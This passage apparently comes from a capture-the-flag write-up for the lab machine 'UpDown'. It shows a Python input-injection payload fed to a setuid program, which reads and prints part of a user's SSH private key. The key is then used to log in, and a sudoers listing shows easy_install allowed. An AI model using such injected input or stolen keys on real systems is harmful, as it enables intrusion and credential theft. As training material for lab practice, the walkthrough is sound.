 here is waiting input to execute python

lets read ssh id\_rsa

```
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
__import__("subprocess").call(["cat","/home/developer/.ssh/id_rsa"])
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
…<SNIP>…
Enter URL here:Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
Welcome to 'siteisup.htb' application
```

by

```
chmod 600 id_rsa
```

```
ssh -i id_rsa developer@10.10.11.177
```

```
developer@updown:~$ cat user.txt
```

checking sudoers files

```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```
